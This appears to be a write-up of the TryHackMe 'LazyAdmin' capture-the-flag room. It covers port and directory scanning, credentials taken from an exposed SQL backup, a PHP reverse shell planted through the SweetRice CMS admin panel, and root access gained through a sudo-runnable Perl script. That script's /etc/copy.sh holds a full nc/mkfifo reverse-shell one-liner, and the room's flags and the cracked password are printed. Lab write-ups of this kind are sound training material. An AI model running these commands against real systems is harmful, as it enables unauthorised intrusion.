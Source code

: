###### Easy linux machine to practice your skills
Room: https://tryhackme.com/room/lazyadmin
##

**sudo nmap** -sS -sV -T5 -vv xx.xx.xx.xxx
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**gobuster** dir -u http:/xx.xx.xx.xxx --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 300
```
/content              (Status: 301) [Size: 314] [--> http://xx.xx.xx.xxx/content/]
```

On the **/content** directory seems to be installed Sweet Rice CMS.   

**gobuster** dir -u http://xx.xx.xx.xxx/content --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 300
```
/images               (Status: 301) [Size: 321] [--> http://xx.xx.xx.xxx/content/images/]
/js                   (Status: 301) [Size: 317] [--> http://xx.xx.xx.xxx/content/js/]    
/inc                  (Status: 301) [Size: 318] [--> http://xx.xx.xx.xxx/content/inc/]   
/as                   (Status: 301) [Size: 317] [--> http://xx.xx.xx.xxx/content/as/]    
/_themes              (Status: 301) [Size: 322] [--> http://xx.xx.xx.xxx/content/_themes/]
/attachment           (Status: 301) [Size: 325] [--> http://xx.xx.xx.xxx/content/attachment/]
```

By going to http://xx.xx.xx.xxx/content/inc, we can find a directory called **mysql_backup** that happens to have a .sql file.  
Once we download and read that file, we have the following credentials  
> manager: 42f749ade7f9e195bf475f37a44cafcb

The hash is a MD5 and reveals the **Password123** password.  
With that, we're able to login on /content/as page.  

From here, we can edit pretty much any php page's code with a PHP reverse shell.  
I chose to create a 'test' ad page with a PHP reverse shell as the source code. The page was created at /content/ads/test.php  

On the listener terminal, we got a connection.  
```
listening on [any] 5555 ...
connect to [xx.x.x.xxx] from (UNKNOWN) [xx.xx.xx.xxx] 33004
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 21:06:32 up 29 min,  0 users,  load average: 0.00, 0.02, 0.14
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

To spawn a bash shell, we can use ```python3 -c 'import pty; pty.spawn("/bin/bash")'```

**The first flag, located on /home/itguy/user.txt, is THM{63e5bce9271952aad1113b6f1ac28a07}** **[1]**.  

From that directory we get the mysql credentials as well.  
```
cat mysql_login.txt
rice:randompass
```

Checking **sudo -l**, we see that we can run the **backup.pl** script from /home/itguy directory.  

**cat backup.pl**
```
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

**cat /etc/copy.sh**
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

It seems that it already has a reverse shell in this script. I just changed the 192... IP with my own.  

**sudo** /usr/bin/perl /home/itguy/backup.pl
On our second listener, we got a second shell. This time, under root privileges.  

**Second and final flag is at /root/root.txt and is THM{6637f41d0177b6f37cb20d775124699f}** **[2]**.  
